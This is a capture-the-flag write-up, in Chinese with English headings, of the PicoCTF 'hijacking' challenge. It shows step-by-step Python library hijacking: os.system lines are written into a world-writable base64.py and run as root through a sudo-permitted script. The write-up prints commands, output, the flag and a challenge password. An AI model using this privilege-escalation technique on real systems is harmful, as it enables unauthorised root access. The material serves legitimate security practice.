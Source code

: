 ```yaml
---
title: PicoCTF - hijacking
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - hijacking

## Background
Privilege Escalation

Hint 1: Check for Hidden files
Hint 2: No place like Home:)

---
[Linux sudo命令](https://www.runoob.com/linux/linux-comm-sudo.html)
> -l 顯示出自己（執行 sudo 的使用者）的權限

## Recon
第一次遇到提權的問題，感覺很新鮮也很好玩，不過因為沒啥概念所以主要是參考[^pico_pwn_hijacking_wp_martin]
1. 首先觀察一下各個file或folders，根目錄有個challenge folder，另外家目錄有一個.server.py檔案，裡面的內容不太重要，只需要知道他import哪些library
2. 現在的問題是按照目前的權限，無法讀取challenge相關的資訊，所以我們要提升權限，主要的做法是利用base64.py這個mod全開的檔案進行讀寫，再利用python執行有import base64的.server.py檔案就可以執行shell
3. 為神麼要用base64.py當作主要的突破口就是因為只有他的mod全開
    ```bash
    $ ls -al /usr/lib/python3.8
    ...
    -rwxrwxrwx 1 root root  20382 Nov 14  2022 base64.py
    ...
    -rw-r--r-- 1 root root  38995 Nov 14  2022 os.py
    ...
    -rw-r--r-- 1 root root  35243 Nov 14  2022 socket.py
    ```

## Exploit
```bash
$ ssh picoctf@saturn.picoctf.net -p 58219
$ find / -name "base64.py"
...
/usr/lib/python3.8/base64.py
...
$ vim /usr/lib/python3.8/base64.py
# add these line and save the file
import os
os.system('ls -al /challenge')
$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Mar 16 02:08 .
drwxr-xr-x 1 root root  51 Jul 31 15:23 ..
-rw-r--r-- 1 root root 103 Mar 16 02:08 metadata.json
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
$ vim /usr/lib/python3.8/base64.py
# revise the file
os.system('cat /challegne/metadata.json')
$ sudo /usr/bin/python3 /home/picoctf/.server.py
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "HYGhWsmPyf"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`

## Reference
[^pico_pwn_hijacking_wp_martin]:[ picoCTF 2023 hijacking ](https://youtu.be/BIzu0AtOq5w)